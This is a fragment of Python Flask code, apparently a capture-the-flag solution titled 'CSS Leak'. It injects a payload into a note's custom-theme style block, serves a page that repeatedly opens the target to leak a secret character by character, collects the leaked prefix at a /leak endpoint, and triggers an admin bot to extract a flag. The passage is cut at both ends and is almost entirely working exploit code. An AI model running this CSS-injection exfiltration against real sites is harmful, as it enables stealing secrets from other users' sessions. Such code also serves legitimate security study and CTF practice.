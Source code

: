 ```py
       "title": "x",
       "content": f'<div id="custom-theme-styles">{payload}</div>'
   }
   response = req.post(url, data=data, allow_redirects=False)
   return(response.headers.get('Location'))
@app.route('/')
def index():
   global HOST
   html = f'''
   <!DOCTYPE html>
   <html>
   <head>
     <title>CSS Leak</title>
   </head>
   <body>
   <script type="module">
   function sleep(ms) {{
       return new Promise(resolve => setTimeout(resolve, ms));
       }}
   (async() =>{{
   await sleep(200)
   for(let i = 0; i<16; i++){{
   const x = await fetch("/prefix")
   const y = await x.text()
   window.open("http://localhost:5001/"+y, "_blank")
   window.open("http://localhost:5001/notes/dashboard", "_blank")
   }}
   const x = await fetch("/done")


   }})()
   </script>
   </body>
   </html>
   '''
   return make_response(html)


@app.route('/prefix')
def prefixs():
   global known_prefix
   return Response(create_note(), mimetype='text/plain')


@app.route('/done')
def done():
   global known_prefix
   print(req.get(HOST+known_prefix).text.split('<p>Here is your flag: ')[1].split('</')[0])
   return Response(create_note(), mimetype='text/plain')


@app.route('/leak')
def leak():
   global known_prefix
   prefixs = request.args.get('id')
   known_prefix = prefixs
   return Response('ok', mimetype='text/plain')
def submit_bot():
   print("Submiting to bot")
   req.post(HOST+"/bot/report", json={
   "note_id":redirect
   })
if __name__ == '__main__':
```